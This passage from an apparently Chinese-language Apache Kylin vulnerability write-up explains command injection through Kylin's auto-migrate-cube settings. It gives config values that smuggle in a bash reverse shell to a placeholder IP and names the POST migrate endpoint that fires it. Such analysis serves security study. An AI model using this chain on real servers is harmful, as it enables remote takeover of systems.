 ```java {17}
        StringBuilder result = new StringBuilder();
        while ((line = reader.readLine()) != null && !Thread.currentThread().isInterrupted()) {
            result.append(line).append('\n');
            if (logAppender != null) {
                logAppender.log(line);
            }
        }

        if (Thread.interrupted()) {
            logger.info("CliCommandExecutor is interruppted by other, kill the sub process: " + command);
            proc.destroy();
            try {
                Thread.sleep(1000);
            } catch (InterruptedException e) {
                // do nothing
            }
            return Pair.newPair(1, "Killed");
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

![kylin-15](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/kylin-15.png)

再去发送`POST`请求 `/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate`

![kylin-16](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/kylin-16.png)

成功反弹一个shell

![kylin-14](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/kylin-14.png)

